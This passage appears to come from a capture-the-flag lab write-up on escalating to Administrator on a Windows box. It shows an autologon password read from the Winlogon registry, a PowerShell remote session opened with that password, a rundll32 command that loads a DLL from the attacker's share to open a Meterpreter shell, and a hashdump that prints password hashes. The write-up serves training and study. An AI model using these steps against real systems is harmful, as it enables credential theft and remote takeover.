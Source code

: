 ```powershell
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0xcdbc433
    ShutdownFlags    REG_DWORD    0x8000022b
    AutoAdminLogon    REG_SZ    1
    DisableLockWorkstation    REG_DWORD    0x0
    EnableFirstLogonAnimation    REG_DWORD    0x1
    AutoLogonSID    REG_SZ    S-1-5-21-988671444-1802818203-1364644418-500
    LastUsedUsername    REG_SZ    Administrator
    DefaultPassword    REG_SZ    3130438f31186fbaf962f407711faddb

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AlternateShells
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\VolatileUserMgrKey
```

So with that password we can do a PSSession as administrator user then either cat root.txt or get an elevated shell back with multi handler again.

```powershell
C:\Users\Public>powershell
powershell
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Users\Public> $username = 'BART\Administrator'
PS C:\Users\Public> $securePassword = ConvertTo-SecureString -AsPlainText -Force '3130438f31186fbaf962f407711faddb'
PS C:\Users\Public> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
PS C:\Users\Public> Enter-PSSession -ComputerName localhost -Credential $credential
[localhost]: PS C:\Users\Administrator\Documents> whoami
whoami
bart\administrator
[localhost]: PS C:\Users\Administrator\Documents> cmd.exe /c "rundll32.exe \\10.10.14.20\BLAH\64443.dll,0"
cmd.exe /c "rundll32.exe \\10.10.14.20\BLAH\64443.dll,0"

[*] Sending stage (206403 bytes) to 10.10.10.81
[*] Meterpreter session 7 opened (10.10.14.20:4444 -> 10.10.10.81:55494) at 2019-07-22 21:43:56 -0400
```
And then our shell this time is administrator.
```bash
msf5 exploit(multi/handler) > sessions -i 7
[*] Starting interaction with 7...

meterpreter > getuid
Server username: BART\Administrator
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:425bb7140b990a4f4f57a0a144b21c71:::
b.hilton:1006:aad3b435b51404eeaad3b435b51404ee:3792e5335b9e38c9581f6810ccfff3f7:::
d.simmons:1005:aad3b435b51404eeaad3b435b51404ee:09c28a6d944ccd120b0c663f78fe06d1:::
```